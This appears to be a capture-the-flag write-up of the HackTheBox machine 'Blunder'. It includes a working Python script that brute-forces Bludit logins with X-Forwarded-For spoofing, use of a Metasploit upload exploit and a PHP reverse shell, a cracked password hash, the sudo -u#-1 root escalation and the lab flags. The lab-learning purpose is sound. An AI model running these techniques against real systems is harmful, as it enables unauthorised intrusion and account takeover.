 # Blunder

Author: Ewaël

**Blunder** is an easy HackTheBox box by egotisticalSW.

`nmap -sC -sV -oN nmap 10.10.10.191 -v -A` shows port 80 is open.

![site](site.png)

`/admin` contains a login page:

![login](login.png)

Basics creds and simple sql injection do not work but I am able to find the Bludit version in the source code: `3.9.2`. After some googling I quickly find that this version is vulnerable to bruteforce there:

[https://rastating.github.io/bludit-brute-force-mitigation-bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass)

After trying to make it work with `rockyou.txt` and `admin` I realize that I must be missing something. Dirbuster does not find anything quickly because of the ridiculous amount of php pages, so I decide to use gobuster to focus on `.txt` files that could hide on the site:

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.191/ --extensions .txt
```

I finally see `/todo.txt` which contains the `fergus` user. Going back on my script which still does not work with this user I decide to create my own wordlist with the main page words because the user "created this site to dump [his] fact files" so the password might be hiding in it.

```
cewl http://10.10.10.191 > site_words
```

Running my script again with this wordlist finally works:

```python
#!/usr/bin/env python3

# modified version of https://rastating.github.io/bludit-brute-force-mitigation-bypass

import requests as rq
import re

dico = open("site_words")

url = "http://10.10.10.191/admin/login"
username = "fergus"

for word in dico:
    password = word[:-1]
    session = rq.Session()
    login_page = session.get(url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {}'.format(password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
        'Referer': url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(url, headers=headers, data=data, allow_redirects=False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {}:{} to login.'.format(username, password))
            print()
            break
```

![dashboard](dashboard.png)

Now that I have access to the admin dashboard I can use a file upload exploit in order to get a reverse shell.

```
Bludit - Directory Traversal Image File Upload (Metasploit)  | php/remote/47699.rb
```

Metasploit successfully opens a meterpreter session which I use to upload my `php-reverse-shell.php` in `/var/www/bludit-3.9.2/bl-content` so I can access it easily from browser to trigger it.

My shell opens as `www-data` as usual. After moving around checking the files I find the hashed password for `hugo` in `/var/www/bludit-3.10.0a/bl-content/databases/users.php`:

```php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

[CrackStation](https://crackstation.net) cracks it easily: `Password120`. `su hugo` with this password allows me the get the user flag:

`dbc21f54284dfb080b785d3c59242c93`

A quick `sudo -l` returns `(ALL, !root) /bin/bash`. Following [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502) I use `sudo -u#-1 /bin/bash`... and I get a root shell.

`c8ebb8a0a90170a934452996c79922e6`
